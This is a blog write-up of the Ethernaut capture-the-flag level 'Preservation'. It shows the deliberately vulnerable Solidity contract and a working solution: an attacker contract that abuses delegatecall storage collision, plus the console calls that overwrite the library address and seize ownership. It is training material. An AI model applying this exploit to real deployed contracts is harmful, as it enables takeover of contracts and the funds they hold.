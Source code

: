 ```yaml
---
layout: post
title: Ethernaut - 16. Preservation
date:  2022-09-23
tags: ethernaut solidity
---
```

## Difficulty: 🌕🌕🌕🌕🌑
> This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.<br />
The goal of this level is for you to claim ownership of the instance you are given.<br /><br />
Things that might help
- Look into Solidity's documentation on the `delegatecall` low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for `delegatecall` to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.


## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## Writeup
The key to solve this level is `delegatecall()`. You can learn the detail in [this website](https://blockchain-academy.hs-mittweida.de/courses/solidity-coding-beginners-to-intermediate/lessons/solidity-5-calling-other-contracts-visibility-state-access/topic/delegatecall/).
1. Get new instance.
2. Create a new contract
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract PreservationAttacker {
        address public timeZone1Library;
        address public timeZone2Library;
        address public owner; 
        uint storedTime;

        function setTime(uint _time) public {
            owner = msg.sender;
        }
    }
    ```
3. Compile and deploy. My contract address is `0x666EEeb5D57C908b582155D28A2fD46193f07325`.
4. Convert datatype `address` to `uint256` by padding 24 zero to the left of address. I got `0x000000000000000000000000666EEeb5D57C908b582155D28A2fD46193f07325`.
5. Call the method to change address `timeZone1Library` to our malicious contract address.
    ``` javascript

    await contract.setFirstTime('0x000000000000000000000000666EEeb5D57C908b582155D28A2fD46193f07325')

    ```
6. Check `timeZone1Library` address.
    ``` javascript

    await contract.timeZone1Library()
    // '0x666EEeb5D57C908b582155D28A2fD46193f07325'

    ```
7. Call the method to invoke malicous `setTime(uint256)` to change owner to our account address.
    ``` javascript

    await contract.setFirstTime('123')

    ```
8. Check `owner`.
    ``` javascript

    await contract.owner()
    // '0xa450CD84Ac7E1cC1D6c5b28b275B7706E1C4e065' <- my account address!

    ```
9. Submit instance ξ( ✿＞◡❛)
